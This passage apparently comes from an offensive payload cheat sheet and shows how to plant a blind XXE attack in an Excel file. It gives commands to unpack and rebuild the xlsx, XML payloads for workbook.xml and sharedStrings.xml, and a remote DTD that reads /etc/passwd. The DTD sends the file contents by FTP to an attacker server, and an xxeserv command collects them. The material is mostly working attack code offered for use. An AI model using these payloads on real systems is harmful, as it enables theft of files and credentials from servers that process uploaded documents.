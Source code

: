 ```
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```

Extract Excel file: `7z x -oXXE xxe.xlsx`

Rebuild Excel file:

```
$ cd XXE
$ 7z u ../xxe.xlsx *
```

Add your blind XXE payload inside `xl/workbook.xml`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

Alternatively, add your payload in `xl/sharedStrings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file.
Instead we build the document once and then change the DTD.
And using FTP instead of HTTP allows to retrieve much larger files.

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

Serve DTD and receive FTP payload using [xxeserv](https://github.com/staaldraad/xxeserv):

```
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### XXE inside DTD file

Most XXE payloads detailed above require control over both the DTD or `DOCTYPE` block as well as the `xml` file.
In rare situations, you may only control the DTD file and won't be able to modify the `xml` file. For example, a MITM.
When all you control is the DTD file, and you do not control the `xml` file, XXE may still be possible with this payload.
